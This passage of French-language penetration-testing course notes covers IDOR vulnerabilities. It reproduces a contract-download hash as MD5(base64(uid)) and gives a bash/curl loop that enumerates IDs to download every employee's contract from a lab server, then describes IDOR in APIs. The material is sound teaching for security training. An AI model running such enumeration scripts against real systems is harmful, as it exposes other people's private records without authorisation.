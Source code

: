 ```js
javascript:downloadContract('1')
```

* Fonction `downloadContract(uid)` :

```js
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

* On voit que la valeur hachée est : `MD5(base64(uid))`.

4. **Reproduire le hachage :**

```bash
echo -n 1 | base64 -w 0 | md5sum
# Résultat : cdd96d3cc73d1dbdaffa03cc6cd7339b
```

* Flag `-n` dans `echo` et `-w 0` dans `base64` pour éviter les sauts de ligne.
* Le hachage correspond à celui envoyé dans la requête → on peut calculer pour d’autres UID.

5. **Énumération de masse :**

* Générer les hachages pour les 10 premiers employés :

```bash
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```

* Script Bash pour télécharger tous les contrats :

```bash
#!/bin/bash
for i in {1..10}; do
    hash=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
    curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
done
```

* Résultat : tous les fichiers `contract_<hash>.pdf` sont téléchargés.

***

## <mark style="color:red;">IDOR in Insecure APIs</mark>

{% hint style="warning" %}
Jusqu'à présent, nous avons utilisé les vulnérabilités IDOR pour accéder à des fichiers et des ressources hors de portée de l'utilisateur. Cependant, des vulnérabilités IDOR peuvent également exister dans les appels de fonctions et les API, et les exploiter nous permettrait d'effectuer diverses actions en tant qu'autres utilisateurs.

Tandis que les vulnérabilités IDOR liées à la divulgation d'informations nous permettent de lire différents types de ressources, les appels de fonctions IDOR non sécurisés nous permettent d'appeler des API ou d'exécuter des fonctions en tant qu'un autre utilisateur. Ces fonctions et API peuvent être utilisées pour modifier les informations privées d'un autre utilisateur, réinitialiser son mot de passe, voire acheter des articles en utilisant les informations de paiement d'un autre utilisateur. Dans de nombreux cas, nous pourrions obtenir certaines informations via une vulnérabilité IDOR de divulgation d'informations, puis utiliser ces informations avec des vulnérabilités IDOR liées aux appels de fonctions non sécurisés, comme nous le verrons plus tard dans le module.
{% endhint %}

